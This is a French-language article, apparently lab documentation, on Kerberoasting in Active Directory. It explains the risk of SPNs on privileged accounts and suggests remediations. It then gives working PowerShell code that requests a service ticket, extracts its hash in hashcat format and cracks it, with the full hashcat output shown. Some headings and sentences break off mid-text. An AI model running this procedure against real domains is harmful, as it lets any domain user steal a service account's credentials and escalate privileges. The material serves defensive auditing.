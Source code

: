 ```yaml
---
title: "Le Kerberoasting avec PowerShell"
description: ""
listed: true
---
```


## Contexte et explication

Lors d'un lancement d'un audit Ping Castle, vous êtes peut-être tombé sur la vulnérabilité "P-Kerberoasting" dans votre domaine (attaque Kerberoasting). Cette faille de sécurité est classée au niveau 1 de criticité (le plus élevé) par l'ANSSI et représente un **gros risque** pour votre Active Directory.

Le principe est simple : un compte avec un haut niveau de privilège dans votre annuaire possède une valeur inscrite dans son attribut `servicePrincipalName`.

### Fonctionnement du ServicePrincipalName

L'attribut `servicePrincipalName` permet plusieurs choses dans Active Directory :

- **Identification d'un service :** Il permet à Kerberos de savoir quel service un utilisateur veut contacter. Par exemple, `HTTPS/server.contoso.com:443` identifie un serveur web, ou `MSSQLSvc/server.contoso.com` pour une base de données.
- **Authentification sécurisée :** Kerberos utilise le SPN pour générer un ticket d'accès (TGS) chiffré avec le mot de passe de l'utilisateur qui porte le `servicePrincipalName`.

Le principal problème lié au SPN est que **n'importe quel utilisateur du domaine** peut demander un ticket d'accès pour le compte qui porte le SPN. Un attaquant ayant donc obtenu un compte dans le domaine, 



### Danger du K



Description:
The purpose is to ensure that the password of admin accounts cannot be retrieved using the Kerberoast attack.

Technical Explanation:
To access a service using Kerberos, a user requests a ticket (named TGS) to the DC specific to the service.
This ticket is encrypted using a derivative of the service password, but can be brute-forced to retrieve the original password.
Any account having the attribute SPN populated is considered as a service account.
Given that any user can request a ticket for a service account, these accounts can have their password retrieved.
In addition, services are known to have their password not changed at a regular basis and to use well-known words.

Please note that this program ignores service accounts that had their password changed in the last 40 days ago to support using password rotation as a mitigation.

Advised Solution:
If the account is a service account, the service should be removed from the privileged group or have a process to change its password at a regular basis.
If the user is a person, the SPN attribute of the account should be removed.






## Fonctionnement

### Contexte

Actuellement, le compte `admin-service` est considéré comme la faille la plus critique du domaine Active Directory SDIS29.LOCAL pour les raisons suivantes :

- Il est "administrateur du domaine", le niveau de privilège le plus élevé possible
- Il contient au moins un SPN (ServicePrincipalName) qui permet son utilisation depuis plusieurs serveurs/services

Cette combinaison fait de ce compte une cible parfaite pour l'attaque **Kerberoasting**.

### Fonctionnement de l'attaque

L'attaque Kerberoasting consiste à demander un ticket Kerberos (protocole d'authentification Active Directory) en utilisant un SPN présent sur le compte cible. Cette opération ne requiert aucun privilège, aucune connaissance de Kerberos et peut donc être réalisée par **n'importe quel utilisateur du domaine**.

Ici le seul prérequis pour l'attaquant est donc de récupérer un compte parmi les +3000 présents dans le domaine et d'avoir accès au réseau.

Une fois le ticket récupéré, il ne reste plus qu'à le craquer hors ligne (attaque par dictionnaire ou bruteforce). Suivant la longueur du mot de passe et l'algorithme de chiffrement, cela peut être plus ou moins long.

Une fois le mot de passe craqué, l'attaquant récupère le mot de passe du compte de service (qui dans notre cas est administrateur du domaine) et il sera en mesure de contrôler l'intégralité de Active Directory.

Cette vulnérabilité permet donc une escalade d'un utilisateur sans aucun privilège vers le niveau le plus élevé de privilège dans Active Directory **en une seule étape**.

### Solutions

Dans notre cas, il n'y a que deux solutions possibles :

- Réduire le niveau de privilèges du compte `admin-service` pour éviter qu'il puisse compromettre l'intégralité du domaine
- Supprimer **tous** les SPN du compte `admin-service`

Les autres solutions (chiffrement Kerberos renforcé avec AES256, mots de passe plus long et changement fréquent du mot de passe) ne doivent pas être considérées comme des solutions viables sur le long terme.

## Attaque

Création d'un utilisateur avec SPN :

```powershell
$splat = @{
    Name              = 'SMITH John'
    Enabled           = $true
    SamAccountName    = 'smithjo'
    UserPrincipalName =  'smithjo@sdis29.local'
    AccountPassword   = ('ZombieKiller2008' | ConvertTo-SecureString -AsPlainText -Force)
    Path              = 'OU=Autres Situations Administratives,OU=Utilisateurs,DC=sdis29,DC=local'
    OtherAttributes   = @{
        ServicePrincipalName = 'MSSQLSvc/server.sdis29.local'
    }
}
New-ADUser @splat
```

Source du code : [Empire/data/module_source/credentials/Invoke-Kerberoast.ps1 at master · EmpireProject/Empire · GitHub](https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Kerberoast.ps1#L660)

Récupération d'un SPN (n'importe lequel) :

```powershell
$domain = (Get-ADDomain).DNSRoot
$user = Get-ADUser smithjo -Properties servicePrincipalName
$sam = $user.SamAccountName
$spn = $user.servicePrincipalName[-1]
```

Création d'un ticket Kerberos :

```powershell
$ticket = [System.IdentityModel.Tokens.KerberosRequestorSecurityToken]::New($spn)
```

Récupération du hash du ticket :

```powershell
$ticketByteStream = $ticket.GetRequest()
$TicketHexStream = [System.BitConverter]::ToString($TicketByteStream) -replace '-'
$TicketHexStream -match 'a382....3082....A0030201(?<EtypeLen>..)A1.{1,4}.......A282(?<CipherTextLen>....)........(?<DataToEnd>.+)'
$etype = [Convert]::ToByte($Matches.EtypeLen, 16)
$cipherTextLen = [Convert]::ToUInt32($Matches.CipherTextLen, 16)-4
$cipherText = $Matches.DataToEnd.Substring(0,$cipherTextLen*2)
$hash = "$($cipherText.Substring(0,32))`$$($cipherText.Substring(32))"
```

Conversion du hash vers le format hashcat :

```powershell
$hashcatFormat = '$krb5tgs$' + $etype + '$*' + $sam + '$' + $domain + '$' + $spn + '*$' + $hash
$hashcatFormat | Set-Clipboard
```

On peut alors essayer de casser le hash avec [hashcat](https://hashcat.net/hashcat/) :

```plaintext
.\hashcat.exe -a 0 .\hash.txt .\kerberoast_pws.txt
```

Le dictionnaire utilisé est le suivant : [edermi Kerberoast PW list (XZ format) · GitHub](https://gist.github.com/The-Viper-One/a1ee60d8b3607807cc387d794e809f0b)

Et au bout de quelques dizaines de secondes de traitement, on obtient le mot de passe en clair : `ZombieKiller2008`

```plaintext
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 ) - Platform #1 [Intel(R) Corporation]
=============================================================
* Device #1: Intel(R) Iris(R) Xe Graphics, 3552/7176 MB (1794 MB allocatable), 96MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 210 MB

Dictionary cache hit:
* Filename..: .\kerberoast_pws.txt
* Passwords.: 35638385
* Bytes.....: 404901152
* Keyspace..: 35638385

$krb5tgs$23$*smithjo$sdis29.local$MSSQLSvc/server.sdis29.local*$abf9befd[...]f3ea6085:ZombieKiller2008

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*smithjo$sdis29.local$MSSQLSvc/server.s...ea6085
Time.Started.....: Wed Jun 25 11:04:25 2025 (47 secs)
Time.Estimated...: Wed Jun 25 11:05:12 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (.\kerberoast_pws.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   765.6 kH/s (7.39ms) @ Accel:16 Loops:1 Thr:8 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 35561472/35638385 (99.78%)
Rejected.........: 0/35561472 (0.00%)
Restore.Point....: 35549184/35638385 (99.75%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: (zoeyis3) -> Zoogbroeders?

Started: Wed Jun 25 11:04:25 2025
Stopped: Wed Jun 25 11:05:13 2025
```
